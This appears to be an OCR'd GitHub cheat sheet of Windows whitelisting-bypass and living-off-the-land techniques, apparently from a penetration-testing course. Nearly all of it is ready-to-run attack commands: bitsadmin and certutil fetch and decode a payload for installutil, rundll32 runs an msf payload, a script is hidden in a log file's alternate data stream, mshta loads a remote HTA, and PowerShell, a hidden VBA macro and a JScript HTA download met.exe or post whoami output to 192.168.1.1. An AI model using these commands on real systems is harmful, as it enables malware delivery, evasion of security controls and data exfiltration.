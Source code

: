 Microsoft.Workflow.Compiler
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml
```

Run.xml
```csharp
using System;
using System.Workflow.ComponentModel;
public class Run : Activity{
    public Run() {
        Console.WriteLine("I executed!");
    }
}
```

installutil
```
bitsadmin /Transfer myJob http://192.168.1.1/payload.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```

rundll32
```
rundll32 test.dll,run
rundll32 shell32.dll,Control_RunDLL C:\Users\student\exploit.dll (msf payload)
```

Alternate Data stream
```
type Desktop\jscript.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test2.js
```

```
wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test2.js"
```

HTA shortcut
```
C:\Windows\System32\mshta.exe http://192.168.1.1/payload.hta
```

PowerShell with error printing
```powershell
powershell -Command wget -Uri http://192.168.1.1:81/ -Method POST -Body $(powershell Invoke-WebRequest 'http://192.168.1.1/met.exe' -OutFile '%TEMP%\\met.exe')
```

Macro Shell with error printing
```
Dim str As String
str = "powershell -Command wget -Uri http://192.168.1.1:81/ -Method POST -Body $(powershell Invoke-WebRequest 'http://192.168.1.1/met.exe' -OutFile '%TEMP%\\met.exe')"
Shell str, vbHide
```

JScript shell with error printing
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("powershell -Command wget -Uri http://192.168.1.1:81/ -Method POST -Body $(powershell whoami)");
</script>
</head>
<body>
<script language="JScript">
self.close();
```